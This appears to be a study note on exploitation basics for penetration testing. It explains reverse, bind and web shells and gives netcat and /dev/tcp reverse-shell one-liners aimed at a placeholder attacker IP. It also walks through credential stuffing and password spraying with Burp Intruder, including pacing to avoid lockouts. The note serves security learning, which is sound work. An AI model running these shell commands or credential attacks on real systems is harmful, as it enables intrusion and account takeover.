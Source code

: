 # Exploitation (Basics)

Exploitation is the attack performed against a system or application based on the potential vulnerability discovered during our information gathering and enumeration.  
We use the information from the Information Gathering stage, analyze it in the Vulnerability Assessment stage, and prepare the potential attacks.  
Often many companies and systems use the same applications but make different decisions about their configuration.  
This is because the same application can often be used for various purposes, and each organization will have different objectives.  
*Source: Hackthebox Academy*

## Shells

### Reverse shell

![image](https://user-images.githubusercontent.com/96747355/175835538-b00ec472-e4b3-4688-b062-25d37837b8b1.png)  
Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)  

- The target connects back to us. Initiates a connection back to a "listener" on our attack box.
- Example
  - in our attacking machine we type `nc -nlvp 4444` (4444 is the port) 
  - in our target we connect be. For instance in case of a linux based machine we can do `netcat ATTACKING-MACHINE-IP 4444 -e /bin/bash` we could also use `/bin/bash -i >& /dev/tcp/ATTACKING-MACHINE-IP/4444 0>&1`

### Bind shell

![image](https://user-images.githubusercontent.com/96747355/175835567-7bb7a51d-7761-4cc8-983a-cc7087dacaac.png)  
Source:[hackingtutorials.org](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

- We connect to the target. "Binds" to a specific port on the target host and waits for a connection from our attack box.
- Example
  - in our target we can do `nc -nlvp 4444 -e /bin/bash`
  - in our attacking machine we can do `nc TARGET-IP 4444`

### Web shell

- Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a PHP script to run a single command.

## Payloads

![image](https://user-images.githubusercontent.com/96747355/175836279-e0f0e004-c75a-4d8e-b4de-9680e1b5306a.png)  
Source:[TCM Academy](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course)

- If one type of payload does not work we can try the other one

## Bruteforce attacks

- Check out how to use hydra [here](/Tools/passwords-tools.md#hydra)
- We can also use metasploit that has multiple modules for bruteforce attacks

## Credentials stuffing and password spraying

- Methodology
  - Use leaked creds found during the enumeration phase on the login portals found during the enumeration phase
- The goal of credentials stuffing and password spraying is to taking these credentials and throwing them at a website
- We can use burp intruder for this
  - First we can see what we get when a login fails, and copy the string we get back
  - We send the login portal to intruder and we add the login and password as variables
  - We use a pitchfork attack
  - We make a grep-match on the string previously copied 
  - Then in the payloads we take the list of users for the variable that corresponds to user and the list of passwords for the one that corresponds to the password. And then we just launch the attack.
  - In the results we will see the ones that are not valid with our grep match. We can also check the response (301 is redirect for example) and the size of the paylaod (if it is really different in one of the results
- Password spraying: We can also try an attack with one password and try out multiple usernames
  - Caution here, checkout prior to your engagement if a lockout is in place how many tried before being locked out. When we know this we can then setup our attack to try something every hour or so.

## Possible paths after this step

|Path |Description|
|-----|-----------|
|Information Gathering| Once we have initial access to the target system, regardless of how high our privileges are at that moment, we need to gather information about the local system. Whether we use this new information for privilege escalation, lateral movement, or data exfiltration does not matter. Therefore, before we can take any further steps, we need to find out what we are dealing with. This inevitably takes us to the vulnerability assessment stage, where we analyze and evaluate the information we find.|
|Post-Exploitation| Post-exploitation is mainly about escalating privileges if we have not yet attained the highest possible rights on the target host. As we know, more opportunities are open to us with higher privileges. This path actually includes the stages Information Gathering, Vulnerability Assessment, Exploitation, and Lateral Movement but from an internal perspective on the target system. The direct jump to post-exploitation is less frequent, but it does happen. Because through the exploitation stage, we may already have obtained the highest privileges, and from here on, we start again at Information Gathering.|
|Lateral Movement|From here, we can also skip directly over to Lateral Movement. This can come under different conditions. If we have achieved the highest privileges on a dual-homed system used to connect two networks, we can likely use this host to start enumerating hosts that were not previously available to us.|
|Proof-of-Concept| We can take the last path after gaining the highest privileges by exploiting an internal system. Of course, we do not necessarily have to have taken over all systems. However, if we have gained the Domain Admin privileges in an Active Directory environment, we can likely move freely across the entire network and perform any actions we can imagine. So we can create the Proof-of-Concept from our notes to detail and potentially automate the paths and activities and make them available to the technical department.|

*Source: HTB Academy*

## Resources

{% embed url="https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/" %}Hacking Tutorials{% endembed %}
{% embed url="https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course" %} Practical Ethical Hacking - TCM Security {% endembed %}
